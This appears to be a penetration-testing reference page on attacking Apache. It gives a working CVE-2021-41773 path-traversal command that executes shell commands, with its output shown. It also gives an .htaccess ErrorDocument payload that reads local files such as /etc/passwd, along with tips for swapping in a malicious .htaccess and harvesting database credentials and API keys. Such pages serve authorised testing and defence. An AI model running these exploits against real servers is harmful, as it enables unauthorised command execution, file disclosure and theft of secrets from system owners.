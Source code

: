 # Apache


## Executable PHP extensions

Check which extensions is executing the Apache server. To search them you can execute:

```bash
 grep -R -B1 "httpd-php" /etc/apache2
```
```
Also, some places where you can find this configuration is:

```bash
/etc/apache2/mods-available/php5.conf
/etc/apache2/mods-enabled/php5.conf
/etc/apache2/mods-available/php7.3.conf
/etc/apache2/mods-enabled/php7.3.conf
```
```
## CVE-2021-41773

```bash
curl http://172.18.0.15/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh --data 'echo Content-Type: text/plain; echo; id; uname'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
Linux
```
```
## LFI via .htaccess ErrorDocument file provider (ap_expr)

If you can control a directory’s .htaccess and AllowOverride includes FileInfo for that path, you can turn 404 responses into arbitrary local file reads using the ap_expr file() function inside ErrorDocument.

- Requirements:
  - Apache 2.4 with expression parser (ap_expr) enabled (default in 2.4).
  - The vhost/dir must allow .htaccess to set ErrorDocument (AllowOverride FileInfo).
  - The Apache worker user must have read permissions on the target file.

.htaccess payload:

```apache
# Optional marker header just to identify your tenant/request path
Header always set X-Debug-Tenant "demo"
# On any 404 under this directory, return the contents of an absolute filesystem path
ErrorDocument 404 %{file:/etc/passwd}
```
```
Trigger by requesting any non-existing path below that directory, for example when abusing userdir-style hosting:

```bash
curl -s http://target/~user/does-not-exist | sed -n '1,20p'
```
```
Notes and tips:
- Only absolute paths work. The content is returned as the response body for the 404 handler.
- Effective read permissions are those of the Apache user (typically www-data/apache). You won’t read /root/* or /etc/shadow in default setups.
- Even if .htaccess is root-owned, if the parent directory is tenant-owned and permits rename, you may be able to rename the original .htaccess and upload your own replacement via SFTP/FTP:
  - rename .htaccess .htaccess.bk
  - put your malicious .htaccess
- Use this to read application source under DocumentRoot or vhost config paths to harvest secrets (DB creds, API keys, etc.).
```